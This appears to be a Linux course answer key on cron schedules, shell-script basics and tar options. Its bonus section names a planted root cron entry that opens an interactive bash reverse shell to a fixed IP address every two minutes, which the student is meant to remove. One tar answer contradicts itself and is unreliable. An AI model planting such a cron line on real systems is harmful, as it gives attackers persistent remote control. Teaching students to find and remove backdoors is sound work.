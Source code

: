 ## Solution File: Reviewing Crons

### Assessment Solutions

#### Cron

- When will the following `cron` schedules run?

  `*/10 * * * *` 

    **Solution**: At every 10th minute.

- What event is the following `cron` a minute away from?

  `59 23 31 12 *`

    **Solution**: New Years!

What do the following hypothetical `cron` likely do?

- `0 18 * * 1-5 /home/Bob/Sales/sum_of_sales.sh`

    **Solution**: Run a script that adds up all the sales for the work day.

- `@weekly /home/sysadmin/Scripts/auto-update.sh`

    **Solution**: A weekly automated system upate.

#### Scripts

- What is a _shebang_?

    **Solution**: Is the commented file declaration at the top of a shell script.

- Is the `.sh` extension needed for shell scripts?

    **Solution**: Nope! As long as the _shebang_ is there, the file should be able to run as a script!

- What two characters should come before the filename of a script?

    **Solution**: `./`

- Jane's script has _user_ and _group_ ownership of a script with `-rw-r--r--` permissions, but she cannot get it to run. What must she do to the file before it will run?

    **Solution**: Run `chmod +x` on her file!

#### Tar

- How does the `-x` option modify the `tar` command?

    **Solution**: This option will let `tar` extract an archive!

- If a directory has `ten` files and the following command is used in it, how many files are being archived?

  -  `tar cvvWf backups/archive.tar .`

    **Solution**: Zero, because tar doesn’t compress!! But all files should be archived as they're all in ., the current directory!

- What option prints the full file specification of files as you interact with them?

    **Solution**: `-vv`

- Why is the `-f` option used in almost every `tar` operation?

    **Solution**: The `-f` option lets you designate a `tar` file to either _create_ or _extract_ or _list_ from.

#### Bonus

- Run: `sudo crontab -e` to open the `root` `crontab`.

- The cron you wanted to remove was:

  `*/2 * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.188.164/888 0>&1`

---
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.  
